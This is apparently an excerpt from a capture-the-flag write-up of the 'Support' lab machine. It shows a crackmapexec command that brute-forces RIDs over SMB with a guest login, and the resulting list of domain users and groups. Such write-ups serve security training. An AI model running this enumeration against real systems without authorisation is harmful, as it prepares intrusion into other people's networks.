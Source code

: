 Used `crackmapexec` to enumerate users.

```bash
crackmapexec smb 10.10.11.174 -u 'guest' -p '' --rid-brute

# Output
SMB         10.10.11.174    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.174    445    DC               [+] support.htb\guest: 
SMB         10.10.11.174    445    DC               [+] Brute forcing RIDs
SMB         10.10.11.174    445    DC               498: SUPPORT\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.174    445    DC               500: SUPPORT\Administrator (SidTypeUser)
SMB         10.10.11.174    445    DC               501: SUPPORT\Guest (SidTypeUser)
SMB         10.10.11.174    445    DC               502: SUPPORT\krbtgt (SidTypeUser)
SMB         10.10.11.174    445    DC               512: SUPPORT\Domain Admins (SidTypeGroup)
SMB         10.10.11.174    445    DC               513: SUPPORT\Domain Users (SidTypeGroup)
SMB         10.10.11.174    445    DC               514: SUPPORT\Domain Guests (SidTypeGroup)
SMB         10.10.11.174    445    DC               515: SUPPORT\Domain Computers (SidTypeGroup)
SMB         10.10.11.174    445    DC               516: SUPPORT\Domain Controllers (SidTypeGroup)
SMB         10.10.11.174    445    DC               517: SUPPORT\Cert Publishers (SidTypeAlias)
SMB         10.10.11.174    445    DC               518: SUPPORT\Schema Admins (SidTypeGroup)
SMB         10.10.11.174    445    DC               519: SUPPORT\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.174    445    DC               520: SUPPORT\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.174    445    DC               521: SUPPORT\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.174    445    DC               522: SUPPORT\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.174    445    DC               525: SUPPORT\Protected Users (SidTypeGroup)
SMB         10.10.11.174    445    DC               526: SUPPORT\Key Admins (SidTypeGroup)
SMB         10.10.11.174    445    DC               527: SUPPORT\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.174    445    DC               553: SUPPORT\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.174    445    DC               571: SUPPORT\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.174    445    DC               572: SUPPORT\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.174    445    DC               1000: SUPPORT\DC$ (SidTypeUser)
SMB         10.10.11.174    445    DC               1101: SUPPORT\DnsAdmins (SidTypeAlias)
SMB         10.10.11.174    445    DC               1102: SUPPORT\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.174    445    DC               1103: SUPPORT\Shared Support Accounts (SidTypeGroup)
SMB         10.10.11.174    445    DC               1104: SUPPORT\ldap (SidTypeUser)
SMB         10.10.11.174    445    DC               1105: SUPPORT\support (SidTypeUser)
SMB         10.10.11.174    445    DC               1106: SUPPORT\smith.rosario (SidTypeUser)
SMB         10.10.11.174    445    DC               1107: SUPPORT\hernandez.stanley (SidTypeUser)
SMB         10.10.11.174    445    DC               1108: SUPPORT\wilson.shelby (SidTypeUser)
SMB         10.10.11.174    445    DC               1109: SUPPORT\anderson.damian (SidTypeUser)
SMB         10.10.11.174    445    DC               1110: SUPPORT\thomas.raphael (SidTypeUser)
SMB         10.10.11.174    445    DC               1111: SUPPORT\levine.leopoldo (SidTypeUser)
SMB         10.10.11.174    445    DC               1112: SUPPORT\raven.clifton (SidTypeUser)
SMB         10.10.11.174    445    DC               1113: SUPPORT\bardot.mary (SidTypeUser)
SMB         10.10.11.174    445    DC               1114: SUPPORT\cromwell.gerard (SidTypeUser)
SMB         10.10.11.174    445    DC               1115: SUPPORT\monroe.david (SidTypeUser)
SMB         10.10.11.174    445    DC               1116: SUPPORT\west.laura (SidTypeUser)
SMB         10.10.11.174    445    DC               1117: SUPPORT\langley.lucy (SidTypeUser)
SMB         10.10.11.174    445    DC               1118: SUPPORT\daughtler.mabel (SidTypeUser)
SMB         10.10.11.174    445    DC               1119: SUPPORT\stoll.rachelle (SidTypeUser)
SMB         10.10.11.174    445    DC               1120: SUPPORT\ford.victoria (SidTypeUser)
SMB         10.10.11.174    445    DC               2601: SUPPORT\MANAGEMENT$ (SidTypeUser)
```
